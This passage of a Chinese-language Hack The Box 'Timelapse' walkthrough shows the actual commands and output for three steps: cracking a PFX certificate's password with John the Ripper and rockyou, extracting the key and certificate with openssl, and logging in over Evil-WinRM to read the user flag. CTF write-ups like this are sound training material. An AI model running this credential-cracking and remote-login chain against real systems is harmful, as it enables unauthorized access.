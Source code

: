 再次用 rockyou 点燃 JohnTheRipper:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash      
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for statusthuglegacy       (legacyy_dev_auth.pfx) 1g 0:00:00:42 DONE (2022-04-09 22:45) 0.02346g/s 75826p/s 75826c/s 75826C/s thuglife06..thsco04
Session completed.
```

几秒钟后我们会有另一个密码。现在我们有了密码，让我们提取私钥:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

对于 PEM 密码短语，您可以将其设置为任何值，我使用的是 1234。

我们还需要证书和私钥。再次使用我们从 John 处获得的相同密码:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx.crt
Enter Import Password:
```

# Evil-WinRM 作为用户合法身份

现在我们有了使用 Evil-WinRM 连接所需的所有文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -c ./pfx.crt -k ./priv.key -p -u -S 
Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

# 用户标志

使用我们之前设置的 PEM 密码 1234，我们现在连接上了。我先得到了用户标志:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type ..\desktop\user.txt
e9fd75b313ffaa4e72f06e32dffc6f96
```
